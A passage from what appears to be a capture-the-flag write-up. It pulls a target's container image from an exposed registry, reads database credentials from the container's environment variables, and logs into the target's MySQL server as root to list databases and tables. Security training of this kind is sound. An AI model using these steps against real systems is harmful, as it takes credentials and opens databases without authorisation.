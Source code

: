 
Then, we can start shell check `env`
```
$ sudo docker run -it $IP:5000/umbrella/timetracking:latest bash
# env
HOSTNAME=a94df8ac7d25
YARN_VERSION=1.22.19
PWD=/home/node
DB_USER=root
HOME=/root
LOG_FILE=/logs/tt.log
TERM=xterm
DB_HOST=db
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NODE_VERSION=19.3.0
DB_DATABASE=timetracking
DB_PASS=[REDACTED]
_=/usr/bin/env
OLDPWD=/root
```

That's how we have DB password - I couldn't break out of docker, so let's check MySQL

```
$ mysql -u root -h $IP -p
```

After inputting password - we get mysql shell

Let's see databases
```
MySQL [(none)]> SHOW databases
    -> ;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| timetracking       |
+--------------------+
5 rows in set (0,050 sec)
```

Nothing that we don't know - let's see the `timetracking` database

```
MySQL [(none)]> USE timetracking;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [timetracking]> SHOW tables;
+------------------------+
| Tables_in_timetracking |
+------------------------+
| users                  |
+------------------------+
1 row in set (0,042 sec)
	
```
